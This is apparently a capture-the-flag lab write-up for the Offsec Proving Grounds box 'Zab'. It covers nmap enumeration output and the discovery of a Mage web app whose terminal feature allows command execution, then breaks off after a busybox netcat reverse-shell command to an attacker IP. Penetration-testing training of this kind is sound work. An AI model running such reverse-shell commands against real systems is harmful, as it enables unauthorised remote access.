




# Offsec Proving Grounds - Zab

## Overview

- Difficulty: Intermediate
- Community Rating: Hard
- Platform: Linux
- Skills Demonstrated: Web Enumeration, Credential Discovery, MySQL Enumeration, Password Cracking, Chisel, SOCKS Proxy, Zabbix, Linux Privilege Escalation

## Methodology

The assessment followed a the below attack methodology:

1. Enumeration
2. Initial Access
3. Credential Discovery
4. Pivoting
5. Privilege Escalation

---
## Enumeration 

Initial enumeration began with a `Nmap` port scan to identify open ports and services
```
nmap 192.168.119.210 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-23 12:23 BST
Nmap scan report for 192.168.119.210
Host is up (0.0068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:5b:cb:6b:21:8c:fc:df:7b:c7:f7:f0:46:2e:6d:55 (ECDSA)
|_  256 ab:1a:ce:a7:f0:b6:0f:79:0b:54:b8:00:26:3d:69:58 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
6789/tcp open  http    Tornado httpd 6.3.3
|_http-title: Mage
|_http-server-header: TornadoServer/6.3.3
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT     ADDRESS
1   6.60 ms 192.168.45.1
2   6.57 ms 192.168.45.254
3   6.65 ms 192.168.251.1
4   6.79 ms 192.168.119.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.50 seconds
```

Key Findings:
- Port 22 - SSH
- Port 80 - HTTP (Apache Default Page)
- Port 6789 - HTTP (Mage Application)

### Web Enumeration

Web enumeration began with **port 80**, this presented the default Apache page. Further enumeration included inspection of the source code, common files, directories and subdomains, however this did not reveal any useful information and attention shifted to the application hosted on **port 6789**.


   
This port was discovered to be hosting the application Mage. Manual enumeration of the interface's menu found the Terminal opttion, this appeared to be provide command execution functionality. 




## Initial Access

A Busybox reverse shell payload was leveraged to achieve an interactive shell on the host system resulting in the initial foothold. 
```
busybox nc 192.168.45.202 4444 -e /bin/bash
```






